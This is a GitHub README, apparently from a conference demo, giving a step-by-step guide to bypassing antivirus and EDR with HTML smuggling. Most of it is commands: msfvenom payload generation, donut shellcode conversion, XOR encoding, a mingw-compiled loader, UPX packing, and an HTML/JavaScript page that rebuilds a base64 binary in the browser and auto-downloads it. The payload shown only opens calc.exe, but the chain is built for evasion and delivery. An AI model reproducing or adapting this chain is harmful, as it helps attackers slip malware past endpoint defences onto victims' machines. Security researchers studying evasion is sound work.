 
# html-smuggling-edr-bypass

## 🧠 Description

This project demonstrates how to use **HTML Smuggling** as an evasion technique to bypass **Antivirus (AV)** and **Endpoint Detection and Response (EDR)** solutions. Originally presented at *Leiria Tech Talks*, this walkthrough covers payload generation, shellcode transformation, in-memory execution, and delivery via a web browser using HTML Smuggling techniques.

## 📑 Table of Contents

- [Description](#-description)
- [Table of Contents](#-table-of-contents)
- [Prerequisites](#-prerequisites)
- [Step-by-Step Guide](#-step-by-step-guide)
- [References](#-references)
- [Credits](#-credits)

## 🔧 Prerequisites

- Linux-based environment
- `msfvenom`
- [`donut`](https://github.com/TheWover/donut)
- `python3`
- `mingw-w64`
- `UPX`
- Modern web browser (Chrome, Edge)

## 🚀 Step-by-Step Guide

### 1. Generate EXE Payload

```bash
msfvenom -p windows/exec CMD=calc.exe -f exe -o calc_payload.exe
```

### 2. Convert EXE to Shellcode using Donut

```bash
donut -i calc_payload.exe -f 1 -o donut_payload.bin -z 1 -e 3 -b 3
```

### 3. XOR Encode the Shellcode

Run the Python script:

```bash
python3 xor_donut.py
```

### 4. Convert Shellcode to C Header

```bash
xxd -i shellcode_xored.bin > shellcode.h
```

### 5. Build the Loader in C

Compile with `mingw` for 32-bit systems:

```bash
i686-w64-mingw32-gcc loader.c -o loader.exe -m32 -Os -s -fno-ident -Wno-write-strings
```

### 6. Compress the Loader with UPX

```bash
upx --ultra-brute loader.exe
```

### 7. Prepare for HTML Smuggling

Encode the binary to Base64:

```bash
base64 -w 0 loader.exe > loader
```

### 8. Build the HTML Smuggling Page

Create an `.html` file to reconstruct and trigger the download of the binary:

```html
<script>
let b64 = "YOUR_BASE64_HERE";
let blob = new Blob([Uint8Array.from(atob(b64), c => c.charCodeAt(0))]);
let a = document.createElement("a");
a.href = URL.createObjectURL(blob);
a.download = "loader.exe";
a.click();
</script>
```

## 📚 References

- [Microsoft Security Blog – HTML Smuggling](https://www.microsoft.com/en-us/security/blog/2021/11/11/html-smuggling-surges-highly-evasive-loader-technique-increasingly-used-in-banking-malware-targeted-attacks/)
- [Donut Shellcode Generator](https://github.com/TheWover/donut)

## 👨‍💻 Credits

Presented by: **Milton Silva**  
Security Researcher
[LinkedIn](https://www.linkedin.com/in/milton-araujo)
